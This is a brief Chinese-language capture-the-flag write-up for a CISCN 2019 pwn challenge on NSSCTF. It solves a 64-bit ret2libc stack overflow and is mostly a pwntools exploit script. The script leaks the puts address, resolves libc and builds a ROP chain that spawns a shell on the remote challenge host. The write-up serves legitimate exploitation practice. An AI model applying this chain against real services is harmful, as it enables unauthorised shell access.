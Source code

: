 [[CISCN 2019东北]PWN2 | NSSCTF](https://www.nssctf.cn/problem/95)
一道ret2libc(64)的题目，需进入encrypt函数方可有栈溢出
![[Pasted image 20240815222454.png]]
![[Pasted image 20240815222522.png]]
由于进入循环后会改变输入的值，故在最前面添加'\x00'来跳过，接着正常溢出
exp:
```python
from pwn import *
from LibcSearcher import LibcSearcher
context(arch='amd64', os='linux', log_level='debug')

#p = process('./ret2libc_nss') #本地死活打不通，不懂
p = remote("node5.anna.nssctf.cn", 22084)
elf = ELF('./ret2libc_nss')

rdi = 0x400c83
ret = 0x4006b9

puts_plt = elf.plt['puts']
encrypt_addr = elf.sym['encrypt']
puts_got = elf.got['puts']

payload = b'\x00' + b'A' * (0x50+7) + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(encrypt_addr)

p.sendlineafter(b'choice!', b'1')
p.sendlineafter(b'encrypted', payload)

puts_real = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

print(hex(puts_real))
libc = LibcSearcher('puts', puts_real)

libc_base = puts_real - libc.dump('puts')
system = libc_base + libc.dump('system')
binsh = libc_base + libc.dump('str_bin_sh')

payload = b'\x00' + b'A' * (0x50+7) + p64(ret) + p64(rdi) + p64(binsh) + p64(system) #栈对齐，不是很懂

p.sendlineafter(b'encrypted', payload)
p.interactive()
```